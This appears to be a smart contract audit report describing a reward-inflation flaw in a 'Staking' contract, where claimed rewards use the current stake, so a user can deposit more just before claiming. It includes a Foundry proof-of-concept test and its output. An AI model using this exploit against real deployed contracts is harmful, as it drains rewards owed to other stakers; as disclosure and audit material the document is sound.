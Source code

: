 ## Summary

The `Staking` contract contains a vulnerability related to the claim rewards function, where user rewards are calculated based on the total staked amount at the time of claim. This vulnerability allows users to potentially exploit the system by depositing additional tokens just before claiming, resulting in inflated rewards.

## Vulnerability Details

In the staking contract's claim function, the rewards calculation is performed using the formula:

```solidity
uint256 amountToClaim = userStakes[msg.sender] * timeInWeeksSinceLastClaim;
```

However, the `userStakes[msg.sender]` value can be updated through the deposit function, allowing users to manipulate their rewards by depositing additional tokens just before claiming. So if claim period is reached, he can deposit more tokens and get extra rewards in claiming.

## Impact

This vulnerability has the potential to result in disproportionate rewards for users who deposit additional tokens right before claiming. Such manipulation could lead to an imbalance in the reward distribution and impact the fairness of the staking system.

## POC

- Copy below test and run it via ``
Test:
```solidity
function testManipulateClaimRewards() public {
    uint256 balancePerSoulmates = 5 ether;
    uint256 weekOfStaking = 5;
    _depositTokenToStake(balancePerSoulmates);

    vm.warp(block.timestamp + weekOfStaking * 1 weeks + 1 seconds);

    // lets add more tokens before claiming rewards ;)
    _depositTokenToStakeForTest(balancePerSoulmates);
    vm.prank(soulmate1);
    stakingContract.claimRewards();

    assertTrue(loveToken.balanceOf(soulmate1) == weekOfStaking * balancePerSoulmates + balancePerSoulmates);
    // initial rewards was 25000000000000000000 but when user add more before claiming and claim period is passed
    // the new reward will be 30000000000000000000
    console2.log(loveToken.balanceOf(soulmate1));
}
```
Result:
```
Logs:
  30000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.32ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
